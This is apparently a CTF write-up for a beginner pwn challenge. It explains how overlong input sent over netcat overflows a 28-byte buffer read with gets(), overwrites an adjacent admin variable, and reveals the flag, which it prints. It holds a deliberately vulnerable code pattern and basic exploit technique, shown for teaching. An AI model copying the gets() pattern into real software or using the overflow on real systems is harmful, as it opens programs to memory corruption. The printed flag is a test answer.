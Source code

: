 # Welcome (beginner)

Welcome! Enjoy pwning!

Author: krloer

nc 20.100.141.224 1033

# Writeup

Quickly netcat to the server and we see the following:

```
Welcome to pwn!!!!
What would you like to say? (no more than 28 characters please)
```

Must be a overflow thing. pasting a lot of characters and press enter and I get:

```
hhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhh
Oh you are a ctf admin? Here you go:
wack{h4v3_fun_4nd_br34k_stuff}
```

To explain how this work look at the source code for the welcome binary running:

```
setbuf(stdout, NULL);
char buf[28];
int admin = 0;
```

It creates a buffer of 28 characters in memory. And in memory right after that buffer they have a admin variable. As they are using `gets(buf);` it does not limit how much you can write to memory. So if you write more than 28 characters you will start overwriting the admin variable. So if you write 28 and a 1 the admin variable will be set to 1 and you will get the flag.

# Flag

```
wack{h4v3_fun_4nd_br34k_stuff}
```